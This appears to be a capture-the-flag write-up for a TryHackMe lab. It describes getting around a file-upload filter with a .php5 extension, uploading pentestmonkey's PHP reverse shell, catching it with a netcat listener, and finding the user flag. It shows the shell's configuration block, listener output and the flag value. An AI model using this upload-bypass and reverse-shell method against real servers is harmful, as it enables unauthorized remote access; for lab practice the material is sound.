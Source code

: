 Question: 
1. Find a form to upload and get a reverse shell, and find the flag.

### Find a form to upload and get a reverse shell, and find the flag.

Okay, we can upload things on a webpage - that means we should try to use a `php-reverse-shell`.

I take the reverse-shell from `pentestmonkey`.

https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

We have to change the IP address and the port in the script.

```bash
set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

Unfortunately we get an error if we upload a `.php` file, so need another file extension. After testing several extentions `.php5` worked!

While we are uploading our reverse script file we have to listen with `nc` on the port we adjusted earlier. In my case I always use `port 4444`.
After uploading our file and our listener is started we need to "activate" the file. 
In `/uploads/` we can find our script and open it there. After that the connection should be established:

```bash 
└─$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.8.24.27] from (UNKNOWN) [10.10.212.155] 54486
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 09:32:16 up 25 min,  0 users,  load average: 0.00, 0.00, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ ls
```

Perfect, now lets `find` our flag:

```bash
$ find / -name user.txt 2>/dev/null
/var/www/user.txt
$ cat /var/www/user.txt
THM{y0u_g0t_a_sh3ll}
$
```
